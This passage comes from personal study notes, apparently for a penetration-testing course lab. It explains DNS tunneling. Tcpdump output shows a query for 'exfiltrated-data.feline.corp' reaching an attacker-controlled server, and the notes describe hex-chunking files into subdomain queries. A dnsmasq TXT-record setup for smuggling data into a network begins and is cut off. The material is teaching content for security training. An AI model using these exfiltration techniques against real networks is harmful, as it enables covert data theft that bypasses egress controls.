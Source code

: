 The tcpdump program on `FELINEAUTHORITY` captured DNS packets from `MULTISERVER03`:
```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```

In this case, we've received a DNS A record request for **exfiltrated-data.feline.corp** on `FELINEAUTHORITY`
+ This happened because `MULTISERVER03` determined the authoritative name server for the **feline.corp** zone
+ All requests for _any_ subdomain of **feline.corp** will be forwarded to `FELINEAUTHORITY`
+ We didn't tell Dnsmasq on `FELINEAUTHORITY` what to do with requests for **exfiltrated-data.feline.corp**, so Dnsmasq just returned an _NXDomain__ response
+ We can see this flow in the following diagram:
![[Pasted image 20231216144436.png]]

The steps where `MULTISERVER03` sent queries to the root name servers and TLD name server have been omitted here for simplicity
+ But in a normal network situation, these steps would precede the request made to `FELINEAUTHORITY`

An arbitrary DNS query from an internal host (with no other outbound connectivity) has found its way to an external server we control
+ This may seem subtle, but it illustrates that we can transfer small amounts of information (exfiltrated data) from inside the network to the outside, without a direct connection, just by making DNS queries
+ Exfiltrating small chunks of plaintext data is one thing, but imagine we have a binary file we want to exfiltrate from `PGDATABASE01`. How might we do that?

This would require a series of sequential requests
+ We could convert a binary file into a long _hex_ string representation, split this string into a series of smaller chunks, then send each chunk in a DNS request for **[hex-string-chunk].feline.corp** 
+ On the server side, we could log all the DNS requests and convert them from a series of hex strings back to a full binary
+ We won't go into further details here, but this should clarify the general concept of DNS network exfiltration

Now that we have covered the process of exfiltrating data from a network, let's consider how we might _infiltrate_ data into a network
+ The DNS specification includes various _records_. We've been making _A record_ requests so far
+ An A record response contains an IPv4 address for the requested domain name

But there are other kinds of records, some of which we can use to smuggle arbitrary data _into_ a network
+ One of these is the _TXT record_
+ The TXT record is designed to be general-purpose, and contains "arbitrary string information".

We can serve TXT records from `FELINEAUTHORITY` using Dnsmasq
+ First, we'll kill our previous **dnsmasq** process with a Ctrl+c. 
+ Then we'll check the contents of **dnsmasq_txt.conf** and run **dnsmasq** again with this new configuration
```
kali@felineauthority:~/dns_tunneling$ cat dnsmasq_txt.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

```
